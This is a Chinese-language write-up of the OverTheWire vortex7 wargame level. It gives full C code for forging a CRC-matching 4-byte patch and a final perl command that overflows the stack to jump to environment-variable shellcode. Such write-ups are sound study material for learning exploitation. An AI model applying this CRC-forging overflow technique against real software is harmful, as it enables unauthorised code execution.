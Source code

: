 ```yaml
---
title: vortex7
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

这道题要求构造一个符合crc的输入来造成溢出。

关于CRC，[这里][1]有一篇详细的文章

为了reverse CRC，我们先找到所用的crc table在文件中的位置，然后将其dump出来：

<pre>$ hexdump -v -n 1024 -s 1504 vortex7 -e '"0x" 1/4 "%08x" ","' | fold -b44</pre>

此外，我们还需要根据最高位字符来构造reverse table。用下面的代码构造并打印reverse table

{% highlight c %}
int main (int argc, char *argv[]) {
    unsigned int *revTable = (unsigned int *)malloc(256*sizeof(unsigned int));
    size_t i;
    for(i=0; i<256; ++i) {
        unsigned int value = CRCTable[i];
        unsigned int top = (value >> 24);
        revTable[top] = i;
    }

    for(i=0; i<256; ++i) {
        printf("0x%02x,", revTable[i]);
    }
    return 0; 
}
{% endhighlight %}


然后我们有下面的代码，他会得到4bytes的patch，当patch加在argv[1]之后时，新的CRC值会变为我们需要的

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned int CRCTable[] = {
    0x00000000,0x77073096,0xee0e612c,0x990951ba,
    0x076dc419,0x706af48f,0xe963a535,0x9e6495a3,
    0x0edb8832,0x79dcb8a4,0xe0d5e91e,0x97d2d988,
    0x09b64c2b,0x7eb17cbd,0xe7b82d07,0x90bf1d91,
    0x1db71064,0x6ab020f2,0xf3b97148,0x84be41de,
    0x1adad47d,0x6ddde4eb,0xf4d4b551,0x83d385c7,
    0x136c9856,0x646ba8c0,0xfd62f97a,0x8a65c9ec,
    0x14015c4f,0x63066cd9,0xfa0f3d63,0x8d080df5,
    0x3b6e20c8,0x4c69105e,0xd56041e4,0xa2677172,
    0x3c03e4d1,0x4b04d447,0xd20d85fd,0xa50ab56b,
    0x35b5a8fa,0x42b2986c,0xdbbbc9d6,0xacbcf940,
    0x32d86ce3,0x45df5c75,0xdcd60dcf,0xabd13d59,
    0x26d930ac,0x51de003a,0xc8d75180,0xbfd06116,
    0x21b4f4b5,0x56b3c423,0xcfba9599,0xb8bda50f,
    0x2802b89e,0x5f058808,0xc60cd9b2,0xb10be924,
    0x2f6f7c87,0x58684c11,0xc1611dab,0xb6662d3d,
    0x76dc4190,0x01db7106,0x98d220bc,0xefd5102a,
    0x71b18589,0x06b6b51f,0x9fbfe4a5,0xe8b8d433,
    0x7807c9a2,0x0f00f934,0x9609a88e,0xe10e9818,
    0x7f6a0dbb,0x086d3d2d,0x91646c97,0xe6635c01,
    0x6b6b51f4,0x1c6c6162,0x856530d8,0xf262004e,
    0x6c0695ed,0x1b01a57b,0x8208f4c1,0xf50fc457,
    0x65b0d9c6,0x12b7e950,0x8bbeb8ea,0xfcb9887c,
    0x62dd1ddf,0x15da2d49,0x8cd37cf3,0xfbd44c65,
    0x4db26158,0x3ab551ce,0xa3bc0074,0xd4bb30e2,
    0x4adfa541,0x3dd895d7,0xa4d1c46d,0xd3d6f4fb,
    0x4369e96a,0x346ed9fc,0xad678846,0xda60b8d0,
    0x44042d73,0x33031de5,0xaa0a4c5f,0xdd0d7cc9,
    0x5005713c,0x270241aa,0xbe0b1010,0xc90c2086,
    0x5768b525,0x206f85b3,0xb966d409,0xce61e49f,
    0x5edef90e,0x29d9c998,0xb0d09822,0xc7d7a8b4,
    0x59b33d17,0x2eb40d81,0xb7bd5c3b,0xc0ba6cad,
    0xedb88320,0x9abfb3b6,0x03b6e20c,0x74b1d29a,
    0xead54739,0x9dd277af,0x04db2615,0x73dc1683,
    0xe3630b12,0x94643b84,0x0d6d6a3e,0x7a6a5aa8,
    0xe40ecf0b,0x9309ff9d,0x0a00ae27,0x7d079eb1,
    0xf00f9344,0x8708a3d2,0x1e01f268,0x6906c2fe,
    0xf762575d,0x806567cb,0x196c3671,0x6e6b06e7,
    0xfed41b76,0x89d32be0,0x10da7a5a,0x67dd4acc,
    0xf9b9df6f,0x8ebeeff9,0x17b7be43,0x60b08ed5,
    0xd6d6a3e8,0xa1d1937e,0x38d8c2c4,0x4fdff252,
    0xd1bb67f1,0xa6bc5767,0x3fb506dd,0x48b2364b,
    0xd80d2bda,0xaf0a1b4c,0x36034af6,0x41047a60,
    0xdf60efc3,0xa867df55,0x316e8eef,0x4669be79,
    0xcb61b38c,0xbc66831a,0x256fd2a0,0x5268e236,
    0xcc0c7795,0xbb0b4703,0x220216b9,0x5505262f,
    0xc5ba3bbe,0xb2bd0b28,0x2bb45a92,0x5cb36a04,
    0xc2d7ffa7,0xb5d0cf31,0x2cd99e8b,0x5bdeae1d,
    0x9b64c2b0,0xec63f226,0x756aa39c,0x026d930a,
    0x9c0906a9,0xeb0e363f,0x72076785,0x05005713,
    0x95bf4a82,0xe2b87a14,0x7bb12bae,0x0cb61b38,
    0x92d28e9b,0xe5d5be0d,0x7cdcefb7,0x0bdbdf21,
    0x86d3d2d4,0xf1d4e242,0x68ddb3f8,0x1fda836e,
    0x81be16cd,0xf6b9265b,0x6fb077e1,0x18b74777,
    0x88085ae6,0xff0f6a70,0x66063bca,0x11010b5c,
    0x8f659eff,0xf862ae69,0x616bffd3,0x166ccf45,
    0xa00ae278,0xd70dd2ee,0x4e048354,0x3903b3c2,
    0xa7672661,0xd06016f7,0x4969474d,0x3e6e77db,
    0xaed16a4a,0xd9d65adc,0x40df0b66,0x37d83bf0,
    0xa9bcae53,0xdebb9ec5,0x47b2cf7f,0x30b5ffe9,
    0xbdbdf21c,0xcabac28a,0x53b39330,0x24b4a3a6,
    0xbad03605,0xcdd70693,0x54de5729,0x23d967bf,
    0xb3667a2e,0xc4614ab8,0x5d681b02,0x2a6f2b94,
    0xb40bbe37,0xc30c8ea1,0x5a05df1b,0x2d02ef8d
};

unsigned int revTable[] = {
    0x00,0x41,0xc3,0x82,
    0x86,0xc7,0x45,0x04,
    0x4d,0x0c,0x8e,0xcf,
    0xcb,0x8a,0x08,0x49,
    0x9a,0xdb,0x59,0x18,
    0x1c,0x5d,0xdf,0x9e,
    0xd7,0x96,0x14,0x55,
    0x51,0x10,0x92,0xd3,
    0x75,0x34,0xb6,0xf7,
    0xf3,0xb2,0x30,0x71,
    0x38,0x79,0xfb,0xba,
    0xbe,0xff,0x7d,0x3c,
    0xef,0xae,0x2c,0x6d,
    0x69,0x28,0xaa,0xeb,
    0xa2,0xe3,0x61,0x20,
    0x24,0x65,0xe7,0xa6,
    0xea,0xab,0x29,0x68,
    0x6c,0x2d,0xaf,0xee,
    0xa7,0xe6,0x64,0x25,
    0x21,0x60,0xe2,0xa3,
    0x70,0x31,0xb3,0xf2,
    0xf6,0xb7,0x35,0x74,
    0x3d,0x7c,0xfe,0xbf,
    0xbb,0xfa,0x78,0x39,
    0x9f,0xde,0x5c,0x1d,
    0x19,0x58,0xda,0x9b,
    0xd2,0x93,0x11,0x50,
    0x54,0x15,0x97,0xd6,
    0x05,0x44,0xc6,0x87,
    0x83,0xc2,0x40,0x01,
    0x48,0x09,0x8b,0xca,
    0xce,0x8f,0x0d,0x4c,
    0x95,0xd4,0x56,0x17,
    0x13,0x52,0xd0,0x91,
    0xd8,0x99,0x1b,0x5a,
    0x5e,0x1f,0x9d,0xdc,
    0x0f,0x4e,0xcc,0x8d,
    0x89,0xc8,0x4a,0x0b,
    0x42,0x03,0x81,0xc0,
    0xc4,0x85,0x07,0x46,
    0xe0,0xa1,0x23,0x62,
    0x66,0x27,0xa5,0xe4,
    0xad,0xec,0x6e,0x2f,
    0x2b,0x6a,0xe8,0xa9,
    0x7a,0x3b,0xb9,0xf8,
    0xfc,0xbd,0x3f,0x7e,
    0x37,0x76,0xf4,0xb5,
    0xb1,0xf0,0x72,0x33,
    0x7f,0x3e,0xbc,0xfd,
    0xf9,0xb8,0x3a,0x7b,
    0x32,0x73,0xf1,0xb0,
    0xb4,0xf5,0x77,0x36,
    0xe5,0xa4,0x26,0x67,
    0x63,0x22,0xa0,0xe1,
    0xa8,0xe9,0x6b,0x2a,
    0x2e,0x6f,0xed,0xac,
    0x0a,0x4b,0xc9,0x88,
    0x8c,0xcd,0x4f,0x0e,
    0x47,0x06,0x84,0xc5,
    0xc1,0x80,0x02,0x43,
    0x90,0xd1,0x53,0x12,
    0x16,0x57,0xd5,0x94,
    0xdd,0x9c,0x1e,0x5f,
    0x5b,0x1a,0x98,0xd9
};

//start is the init CRC value
unsigned int computeCRC(unsigned int start, unsigned char *str, size_t len) {
    size_t i;
    for(i=0; i<len; ++i) {
        start = (start >> 8) ^ (CRCTable[(0xff & (start ^ str[i]))]);
    }
    return start;
}

unsigned int reverseCRC(unsigned int start, unsigned end) {
    unsigned char buf[8];
    unsigned int *pos = buf;

    *pos = start;
    *(pos+1) = end;

    int i = 0;
    for(i=0; i<4; ++i) {
        unsigned char topByte = buf[7-i];
        unsigned int idx = revTable[topByte];
        unsigned int value = CRCTable[idx];
        pos = buf + 4 - i;
        *pos = (*pos) ^ value;
        buf[3-i] = buf[3-i] ^ idx;
    }
    pos = buf;
    return *pos;
}

int main (int argc, char *argv[]) {
    if(argc != 3) {
        printf("usage: %s <string> <CRC>\n", argv[0]);
        return 0;
    }

    size_t len = strlen(argv[1]);
    char *cat = (char *)malloc(len+5);
    strncpy(cat, argv[1], len);

    //compute the current CRC
    unsigned int current = computeCRC(0, argv[1], len);
    printf("current is 0x%08x\n", current);
    unsigned int dest = (unsigned int)strtoul(argv[2], NULL, 16);
    printf("dest is 0x%08x\n", dest);

    //compute the patch
    unsigned int patch = reverseCRC(current, dest);
    unsigned char *patchChar = &patch;
    printf("patch is \\x%02x\\x%02x\\x%02x\\x%02x\n", patchChar[0], patchChar[1], patchChar[2], patchChar[3]);

    strncat(cat, patchChar, 4);

    unsigned int new = computeCRC(0, cat, len+4);
    printf("verify: new CRC is 0x%08x\n", new);
    return 0;
}
{% endhighlight %}


看反汇编，知道要覆盖完返回地址需要78bytes，在加上4bytes的patch共82bytes。将shellcode放到环境变量，得到其地址，然后可由上计算出patch。最后运行

<pre>$ /vortex/vortex7 `perl -e 'print "A"x74 . "\xf9\xd8\xff\xff" . "\x1c\xdd\x03\x32"'`</pre>


 [1]: http://www.woodmann.com/fravia/crctut1.htm "http://www.woodmann.com/fravia/crctut1.htm"